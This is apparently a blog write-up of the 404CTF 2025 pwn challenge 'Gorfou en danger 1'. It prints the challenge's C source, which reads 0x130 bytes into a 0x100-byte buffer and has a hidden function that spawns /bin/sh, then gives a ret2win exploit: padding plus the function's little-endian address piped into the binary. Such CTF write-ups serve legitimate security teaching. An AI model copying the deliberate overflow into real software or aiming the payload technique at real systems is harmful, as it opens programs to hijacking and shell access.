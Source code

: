```yaml
---
layout: post
title: Gorfou en danger 1
date: 06/06/2025
categories: [ctf, pwn]
tag: [pwn, ctf]
author: Paw
---
```



```C
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>

void menu() {
    puts("      __                                                                     ");
    puts("     /\\ \\                                                                  ");
    puts("    /  \\ \\      .--------------------------------------------------------. ");
    puts("   / /\\ \\ \\     |░█▀▄░█▀▀░█▀▀░█▀▀░░░█▀▀░█▀█░█▀█░█▀▀░█▀█░█░░░█▀▀░░░█░█░▀█░|");
    puts("  / / /\\ \\ \\    |░█░█░█░█░▀▀█░█░█░░░█░░░█░█░█░█░▀▀█░█░█░█░░░█▀▀░░░▀▄▀░░█░|");
    puts(" / / /__\\_\\ \\   |░▀▀░░▀▀▀░▀▀▀░▀▀▀░░░▀▀▀░▀▀▀░▀░▀░▀▀▀░▀▀▀░▀▀▀░▀▀▀░░░░▀░░▀▀▀|");
    puts("/ / /________\\  '--------------------------------------------------------'  ");
    puts("\\/___________/                                                              ");
}

void debug_access(void) {
    puts("Accès à l'interface de debogage...");

    __asm__(
        ".intel_syntax noprefix;"
        "push 0x0;"
        ".att_syntax;"
    );
    
    system("/bin/sh");
    return;
}

void take_command() {
    char command[0x100];
    
    printf("> ");
    read(0, command, 0x130);
    printf("Commande inconnue\n");
}

int main(void) {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    menu();

    printf("Terminal de contrôle à distance de la base martienne Fermat\n");

    while (1) {
        take_command();
    }

    return 0;
}
```
This challenge was purposed in 404CTF 2025
> In this challenge the source code was given


We can some function called `debug_access`, it's a ret2win challenge. 

In a ret2win challenge you just have to find the offset to crush the EIP/RIP and return the function address.
> offset + return adress

```bash
gorfou-en-danger-1 readelf -s ./chall| grep "debug"
    42: 00000000004004fd    29 FUNC    GLOBAL DEFAULT    4 debug_access
```
so we just have to put the address in little endian 
debug adress in little endian : `\xfd\x04@\x00\x00\x00\x00\x00`
solution : 
```bash
(echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xfd\x04@\x00\x00\x00\x00\x00";cat) | ./chall
```

